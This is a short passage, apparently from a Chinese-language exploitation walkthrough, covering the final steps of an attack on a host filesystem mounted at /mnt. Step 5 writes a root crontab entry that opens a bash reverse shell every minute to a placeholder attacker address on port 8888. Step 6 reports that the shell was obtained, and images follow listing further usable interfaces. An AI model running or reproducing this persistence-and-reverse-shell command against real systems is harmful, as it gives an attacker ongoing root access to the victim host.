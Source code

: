 ```bash
Step 5：写计划任务
```

```bash
echo -e "* * * * * root bash -i >& /dev/tcp/x.x.x.x/8888 0>&1\n" >> /mnt/etc/crontab
```

Step 6：成功获取 shell

[![](assets/1701826061-9da6ccad4958d19e01b238a8d5294d07.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025165531-40489a4c-7314-1.png)

**接口扩展**  
补充一些可用接口：

[![](assets/1701826061-4343cca5314a03fa82533194cbae241e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025165610-578bd958-7314-1.png)
